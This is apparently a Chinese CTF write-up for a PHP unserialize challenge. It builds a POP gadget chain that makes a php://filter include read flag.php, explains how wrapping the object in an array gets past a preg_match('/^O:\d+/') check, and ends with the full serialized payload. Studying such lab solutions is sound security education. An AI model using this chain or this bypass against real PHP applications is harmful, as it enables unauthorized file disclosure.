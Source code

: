 ### serialize

构造pop链

```php
<?php
class misca{
    public $gao;
    public $fei;
    public $a;
    public function __get($key){
        $this->miaomiao();
        $this->gao=$this->fei;
        die($this->a);
    }
    public function miaomiao(){
        $this->a='Mikey Mouse~';
    }
}
class musca{
    public $ding;
    public $dong;
    public function __wakeup(){
        return $this->ding->dong;
    }
}
class milaoshu{
    public $v='php://filter/convert.base64-encode/resource=flag.php';
    public function __tostring(){
        echo"misca~musca~milaoshu~~~";
        include($this->v);
    }
}
$c = new musca();
$c->ding = new misca();
$c->ding->fei = new milaoshu();
$c->ding->a = &$c->ding->gao;
$b = serialize($c);
echo serialize(array($c));
?>
```

这题最重要的就是绕过if(preg_match('/^O:\d+/',$data))

这里用+能绕过但是代码不能执行，还可以用数组绕过

[关于正则匹配preg_match(‘/^O:\d+/‘)的绕过的几种方法](http://t.csdnimg.cn/eWViq)

payload：

```php
a:1:{i:0;O:5:"musca":2:{s:4:"ding";O:5:"misca":3:{s:3:"gao";N;s:3:"fei";O:8:"milaoshu":1:{s:1:"v";s:52:"php://filter/convert.base64-encode/resource=flag.php";}s:1:"a";R:4;}s:4:"dong";N;}}
```
